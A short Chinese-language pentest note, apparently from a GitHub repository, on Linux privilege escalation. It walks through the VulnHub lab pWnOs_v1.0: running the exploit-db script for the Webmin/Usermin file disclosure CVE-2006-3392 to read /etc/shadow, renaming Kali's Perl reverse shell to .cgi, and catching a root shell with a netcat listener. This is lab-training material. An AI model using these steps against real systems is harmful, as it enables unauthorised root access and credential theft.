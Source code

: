# 提权

## linux


### 任意文件读取漏洞提权
基本原理：有些任意文件的读取漏洞权限非常高，可以读到普通用户都读不到的/etc/shadow文件，可以利用这一点提权。

案例：pWnOs_v1.0
平台：vulnhub
漏洞编号：<1.290/Usermin<1.220-Arbitrary File Disclosure(CVE-)2006-3392
漏洞利用脚本：/usr/share/exploitdb/exploits/multiple/remote/2017.pl(kali)

**使用脚本利用漏洞**
```bash
perl /usr/share/exploitdb/exploits/multiple/remote/2017.pl <url> <port> <filename> <target> 
TARGETS are
 0  - > HTTP 
 1  - > HTTPS
Define full path with file name 
Example: ./webmin.pl blah.com 10000 /etc/passwd
```
**构建反shell**
可以直接使用kali自带的反shell(位置：/usr/share/webshells/perl/perl-reverse-shell.pl)
把`perl-reverse-shell.pl`改为`perl-reverse-shell.cgi`使漏洞利用的时候执行脚本，还有，脚本里面的IP要改为自己机器的IP

**nc监听**

```bash
nc -lnvp 1234
```
就可以拿到root用户的shell了。

## windows
